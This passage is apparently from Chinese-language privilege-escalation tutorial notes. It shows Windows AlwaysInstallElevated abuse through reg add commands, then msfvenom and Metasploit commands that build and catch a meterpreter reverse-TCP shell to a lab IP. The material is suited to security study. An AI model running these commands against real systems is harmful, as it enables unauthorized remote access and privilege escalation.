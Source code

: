 ```
也可以使用如下两个命令进行设置，其实效果和上面是一样的。
reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1 /f
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1 /f
```

![image-20241015184808481](操作系统提权/image-20241015184808481.png)	

```
此时再去查询注册表中的内容，只要都显示是1，说明普通用户可以使用msf文件进行安装。
```

![image-20241015184925065](操作系统提权/image-20241015184925065.png)	

```
此时切换成普通用户来进行提权操作。
比如说已经使用msf会话控制了这台电脑，拥有普通用户的权限。
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.15.141 LPORT=7777 -f exe -o payload.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.15.141
set lport 7777
exploit 
```

```
查看权限
```

![image-20241015190443482](操作系统提权/image-20241015190443482.png)	
